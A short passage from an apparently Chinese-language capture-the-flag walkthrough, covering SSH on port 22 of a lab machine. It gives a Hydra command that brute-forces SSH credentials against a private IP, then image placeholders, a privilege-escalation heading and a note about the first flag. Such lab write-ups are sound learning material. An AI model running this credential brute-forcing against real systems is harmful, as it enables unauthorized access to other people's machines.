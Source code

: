 






### 22 端口

#### hydra爆破ssh

```
hydra -L user.txt -P user.txt ssh://192.168.1.11
```

![image-20250315053736040](assets/image-20250315053736040.png)







#### ssh登录

![image-20250315053806372](assets/image-20250315053806372.png)







## 提权

### 得到第一个flag
